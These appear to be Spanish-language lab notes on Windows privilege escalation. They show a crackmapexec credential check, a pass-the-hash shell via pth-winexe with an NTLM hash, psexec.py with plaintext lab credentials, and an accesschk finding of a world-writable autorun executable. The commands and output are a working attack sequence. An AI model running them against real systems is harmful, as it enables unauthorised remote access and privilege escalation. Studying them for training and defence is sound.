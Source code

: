 ## Pass The Hash

Tenemos `pwn3d`

```
❯ crackmapexec smb 10.10.108.120 -u admin -p password123
SMB         10.10.108.120   445    WIN-QBA94KB3IOF  [*] Windows Server 2019 Standard Evaluation 17763 (name:WIN-QBA94KB3IOF) (domain:WIN-QBA94KB3IOF) (signing:False) (SMBv1:True)
SMB         10.10.108.120   445    WIN-QBA94KB3IOF  [+] WIN-QBA94KB3IOF\admin:password123 (Pwn3d!)
```

```
❯ pth-winexe -U "admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da" //10.10.108.120 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

Extra:

```
❯ pth-winexe -U "admin%password123" //10.10.108.120 cmd.exe
psexec.py WORKGROUP/admin123:brokenB19@10.10.91.221 cmd.exe
```

----

## Registro Ejecuciones automaticas

```
> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Viendo los permisos

```
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```
